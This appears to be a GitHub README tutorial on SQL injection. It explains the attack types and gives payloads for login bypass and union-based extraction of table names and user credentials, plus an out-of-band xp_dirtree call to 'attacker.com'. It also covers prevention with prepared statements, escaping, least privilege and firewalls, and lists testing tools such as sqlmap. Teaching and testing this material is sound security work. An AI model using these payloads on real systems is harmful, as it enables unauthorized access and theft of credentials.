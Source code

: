 # SQL Injection (SQLi)     
![image](https://github.com/user-attachments/assets/04371416-fb7b-4ac8-8e5f-f68f7d31e06d)

SQL Injection (SQLi) is a web security vulnerability that allows attackers to manipulate SQL queries executed by an application’s database. This can lead to:  
> Unauthorized access to sensitive data  
> Bypassing authentication mechanisms  
> Data modification or deletion  
> Gaining control over the database server  

### **1 How SQL Injection Works**  
When an application fails to properly sanitize user input, attackers can insert malicious SQL code into queries.  

Example: Consider a vulnerable login system using the following SQL query:  
```sql
SELECT * FROM users WHERE username = '$user' AND password = '$pass';
```
If an attacker enters `' OR 1=1 --` as the username, the query becomes:  
```sql
SELECT * FROM users WHERE username = '' OR 1=1 --' AND password = '';
```
Since `1=1` is always true, the query bypasses authentication, granting access without a valid password.

---

## **2. Types of SQL Injection**  

### **1) Error-Based SQL Injection**  
Relies on extracting information from database error messages.  

**Example (MySQL)**:
```sql
' ORDER BY 1 --   # Checking number of columns
' UNION SELECT NULL, NULL, @@version --  # Extract database version
```
---
### **2) Boolean-Based (Blind) SQL Injection**  
The attacker infers information based on application behavior.  

**Example (Testing for User Existence):**  
```sql
' AND 1=1 --  # Valid query (application responds normally)
' AND 1=2 --  # Invalid query (application behaves differently)
```
If the second query causes a different response, the site is vulnerable.

---
### **3) Time-Based Blind SQL Injection**  
Used when no visible output is returned. The attacker delays the response to confirm injection.  

**Example (MySQL)**:
```sql
' OR IF(1=1, SLEEP(5), 0) --  # Causes a 5-second delay if the query is executed
```
---
### **4) Union-Based SQL Injection**  
Uses the `UNION` SQL operator to extract data.  

**Example (Extracting Database Name):**  
```sql
' UNION SELECT database(), NULL, NULL --
```
---
### **5) Out-of-Band SQL Injection**  
Extracts data via external interactions (DNS, HTTP requests).  

**Example (SQL Server – Sending Data to an Attacker's Server):**  
```sql
'; EXEC xp_dirtree('//attacker.com/payload') --
```
---

## **3. Exploiting SQL Injection**  
### **1) Finding the Number of Columns**  
```sql
' ORDER BY 1 --
' ORDER BY 2 --
' ORDER BY 3 --   # Increase the number until an error occurs
```
---
### **2) Extracting Database Version**  
```sql
' UNION SELECT @@version, NULL, NULL --
```
---
### **3) Extracting Table Names**  
```sql
' UNION SELECT table_name FROM information_schema.tables WHERE table_schema=database() --
```
---
### **4) Extracting Column Names from a Table**  
```sql
' UNION SELECT column_name FROM information_schema.columns WHERE table_name='users' --
```
---
### **5) Extracting User Credentials**  
```sql
' UNION SELECT username, password FROM users --
```
---

## **4. Bypassing Authentication with SQL Injection**
### Classic Bypass Payloads  
- `admin' --`  
- `' OR '1'='1' --`  
- `" OR 1=1 #`  
- `admin' OR 1=1 --`  

---

## **5. Preventing SQL Injection**  

### **1) Use Prepared Statements (Parameterized Queries)**  
Ensures user input is treated as data, not SQL code.  

**Example (PHP – MySQLi Prepared Statement):**
```php
$stmt = $conn->prepare("SELECT * FROM users WHERE username = ? AND password = ?");
$stmt->bind_param("ss", $username, $password);
$stmt->execute();
```

**Example (Python – SQLite3 Prepared Statement):**
```python
cursor.execute("SELECT * FROM users WHERE username=? AND password=?", (user, password))
```

---
### **2) Input Validation & Whitelisting**  
- Allow only expected input formats (e.g., email, numeric values).  
- Reject special characters like `'`, `--`, `;`, `"`  

---
### **3) Escape Special Characters**  
If prepared statements are not available, use escaping.  

**Example (PHP – MySQLi Escape):**
```php
$username = mysqli_real_escape_string($conn, $_GET['username']);
```
---
### **4) Use Least Privilege Principle**  
- Grant database users minimal privileges.  
- Avoid using `root` or `admin` accounts in web applications.  
- Restrict `DROP`, `DELETE`, and `UPDATE` permissions where unnecessary.  

---
### **5) Implement Web Application Firewalls (WAFs)**  
Use security tools to block malicious requests.  
- **ModSecurity**  
- **Cloudflare WAF**  
- **Imperva WAF**  

---

## **6. SQL Injection Testing Tools**
### **1) SQLMap (Automated Testing)**
```bash
sqlmap -u "http://example.com/login.php?id=1" --dbs
```
---
### **2) Burp Suite (Manual Testing)**
- Intercept and modify requests.  
- Test SQLi payloads in form fields.  

---
### SQLi Tools & installation 
- **Havij** – GUI-based SQL Injection tool (https://github.com/MyIBGit/Havij-SQL-Injection-tool).  
- **NoSQLMap** – For NoSQL injection attacks (https://github.com/codingo/NoSQLMap.git).  
- **BBQSQL** – SQLi testing tool for blind SQL injections (https://github.com/CiscoCXSecurity/bbqsql).  

---



